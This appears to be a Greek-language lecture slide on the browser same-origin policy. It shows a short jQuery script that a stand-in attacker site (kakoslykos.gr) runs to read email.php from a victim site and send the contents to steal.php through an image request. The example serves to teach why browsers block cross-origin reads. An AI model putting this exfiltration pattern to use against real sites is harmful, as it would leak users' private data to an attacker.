

# Same-origin policy
Τι γίνεται αν όταν ο διαχειριστής του kokkinoskoufitsa.gr επισκεφθεί το kakoslykos.gr όπου θα τρέξει κάτι σαν κι αυτό;

<script type=“text/javascript”>
$.get(
   “http://kokkinoskoufitsa.gr/email.php”,
   function ( data ) {
      var img = document.createElement( ‘img’ );
      img.src = ‘steal.php?data=’ + data;
      document.appendChild( img );
   }
);
</script>